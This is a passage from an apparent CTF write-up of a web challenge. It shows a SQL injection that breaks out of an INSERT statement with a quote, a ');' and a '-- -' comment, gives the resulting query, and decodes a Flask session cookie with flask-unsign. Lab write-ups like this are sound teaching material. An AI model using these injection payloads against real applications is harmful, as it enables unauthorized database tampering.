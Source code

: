 > Note: The payload is now moved to the `desc` parameter, otherwise we need to provide 2 more values.

In the above payload, we use the `'` to escape the single quotation mark. Then, the `);` is to close the `VALUES` clause. Finally, the `-- -` is a SQL comment, so that the rest of the original syntax will be ignored.

**Hence, the final SQL statement will become this:** 
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', 'foobar');-- -');
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527131555.png)

**Decoded Flask session cookie:**
```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2024/Web/Hacker-Web-Store)-[2024.05.27|13:08:11(HKT)]
└> flask-unsign --decode --cookie '.eJxNjc0KgzAQhF8l3bMYkNIfb32GHkXCJrupUjXWXelBfPemh0JPwwfzzWzg4oDSsUDdbGA0B4wsgg-GAu5rCBkO5kbEZCZ-m3lJtAY1mgyhokfhEtq9LfLSwtJBHXEQLoC8m1Ezg-3SyDZotJLH-jS5nyk2XKk6VWeKR39x5Et5Db1-rzU9ecryfwH2D7irOys.ZlQVNQ.C3h1T_xL_qBHMthWP5-SpuX4u7Q' 
{'_flashes': [('message', 'Success! Added new product to database.')], '_fresh': False, 'db_path': '/home/ctf/session_databases/c9d2627df4b8_db.sqlite', 'token': 'c9d2627df4b8'}
```
